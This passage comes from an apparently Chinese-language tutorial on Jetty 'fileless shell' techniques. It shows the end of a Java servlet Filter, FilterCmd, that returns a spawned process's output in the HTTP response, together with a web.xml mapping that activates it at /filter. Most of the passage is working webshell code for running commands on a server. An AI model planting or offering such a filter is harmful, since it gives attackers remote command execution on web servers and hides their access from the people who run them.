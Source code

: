 ```java
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream())
            );
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy () {
    }
}
```



web.xml配置如下

- 当访问/filter路由时即可触发该filter

```xml
<filter>
    <filter-name>FilterCmd</filter-name>
    <filter-class>com.example.jetty9.filter.FilterCmd</filter-class>
</filter>
<filter-mapping>
    <filter-name>FilterCmd</filter-name>
    <url-pattern>/filter</url-pattern>
</filter-mapping>
```

测试效果如图

![image-20211216234712662](fileless-shell.assets/image-20211216234712662.png)
